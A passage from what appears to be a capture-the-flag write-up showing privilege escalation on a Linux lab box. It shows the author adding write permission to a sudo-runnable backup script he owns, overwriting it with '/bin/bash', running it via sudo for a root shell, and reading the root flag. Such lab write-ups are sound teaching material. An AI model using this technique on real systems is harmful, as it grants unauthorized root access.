 We can sudo with the [[Script]], we go in the directory and see permissions to see if we can write :

```
alex@ubuntu:/etc/mp3backups$ ls -l
total 12
-rw-r--r-- 1 root root  339 Jul 13 12:21 backed_up_files.txt
-r-xr-xr-- 1 alex alex 1083 Dec 30  2020 backup.sh
-rw-r--r-- 1 root root   45 Jul 13 12:21 ubuntu-scheduled.tgz

```

And we don't so we try to add writing permissions :

```
alex@ubuntu:/etc/mp3backups$ ls -l
total 12
-rw-r--r-- 1 root root  339 Jul 13 12:23 backed_up_files.txt
-rwxrwxr-- 1 alex alex 1083 Dec 30  2020 backup.sh
-rw-r--r-- 1 root root   45 Jul 13 12:23 ubuntu-scheduled.tgz

```

Worked ! Now we can write it up and execute :

```
alex@ubuntu:/etc/mp3backups$ echo "/bin/bash" > /etc/mp3backups/backup.sh 
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh 

root@ubuntu:/etc/mp3backups# cd ..
root@ubuntu:/etc# cd ..
root@ubuntu:/# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
root@ubuntu:/# cd root
root@ubuntu:/root# ls
root.txt
root@ubuntu:/root# cat root.txt
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}

```

Pwned !

